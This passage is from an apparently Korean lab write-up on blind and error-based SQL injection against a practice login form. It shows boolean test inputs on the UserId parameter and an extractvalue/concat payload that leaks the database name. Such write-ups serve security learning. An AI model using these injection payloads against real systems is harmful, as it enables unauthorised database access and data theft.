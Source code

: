 - 계정: normaltic / 1234

![sqli3 login](/assets/web-screenshots/blind-error-based-sqli/sqli3_login.png)

로그인에 성공하면 서버는 `302 Found` 응답과 함께 `index.php`로 리다이렉션시킨다.
이를 통해 로그인 로직이 정상 동작함을 확인했으며, 이제 이를 바탕으로 SQL Injection 테스트를 진행해볼 것이다.

| 입력값 (`UserId` 파라미터)      | HTTP 응답           | 의미                 |
| ----------------------- | ----------------- | ------------------ |
| `normaltic' and '1'='1` | 302 Found (리다이렉션) | 조건이 참(True) → 성공   |
| `normaltic' and '1'='2` | 200 OK            | 조건이 거짓(False) → 실패 |


실행 결과, `UserId=normaltic' and '1'='1`을 입력했을 때는 **302 리다이렉션**이 발생하고,
`UserId=normaltic' and '1'='2`를 입력했을 때는 **200 OK 응답**이 반환되었다.

이제 이 결과를 바탕으로, **Error Based SQL Injection 공격**을 시도해볼 것이다.

```sql
' or extractvalue(1,concat(0x7e,(select+database()))) and '1'='1
```

**실행 결과:**

![sqli3 database](/assets/web-screenshots/blind-error-based-sqli/sqli3_database.png)
